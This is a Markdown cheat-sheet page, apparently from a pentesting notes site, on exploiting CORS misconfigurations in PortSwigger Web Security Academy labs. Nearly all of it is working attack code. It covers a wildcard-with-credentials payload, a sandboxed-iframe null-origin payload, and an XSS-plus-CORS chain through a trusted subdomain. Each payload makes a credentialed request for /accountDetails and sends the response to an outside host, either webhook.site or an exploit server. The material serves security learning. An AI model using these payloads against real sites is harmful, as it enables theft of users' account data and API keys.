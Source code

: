 ```yaml
---
title: "Cors"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
sidebar:
  collapsed: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
  noindex: false # false (default) or true
---
```

##  Basic Cors Misconfiguration :

`Access-Control-Allow-Origin * && Access-Control-Allow-Credentials is True`

```sh
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("https://0a08009804f217fe803f21a500fa0046.web-security-academy.net");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);

    function retrieveKeys() {
            location='https://webhook.site/383f0fd1-02c0-4dfa-a570-a146e498e388/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```

## Null Origin :

- Sometimes the Null value is accepted so if `Origin: null` is reflected you can do this :

```sh
<iframe sandbox='allow-scripts allow-top-navigation allow-forms' src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a5e006d0328ba97827c602100bb0093.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://exploit-0a6c006c0386baea820e5f1f013e00e3.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```
## XSS + CORs

- Check Allow origin : 

If there is an xss in a subdomain you can exploit the Cors , in this case it only accept this domain `http://0a8600b203276610850ea08900b8000b.web-security-academy.net` and also the subdomain .

```sh
Origin: http://0a8600b203276610850ea08900b8000b.web-security-academy.net
Origin: http://subdomain.0a8600b203276610850ea08900b8000b.web-security-academy.net
```

- It then responds with:

```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.0a8600b203276610850ea08900b8000b.web-security-academy.net Access-Control-Allow-Credentials: true 
```

- So you can do this : 
`Don't forget to url the + and < in the script balise to avoid conflic !!`

```sh
<script>
document.location="http://stock.0a8600b203276610850ea08900b8000b.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8600b203276610850ea08900b8000b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a51006f03fe66fd85589fa101060074.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```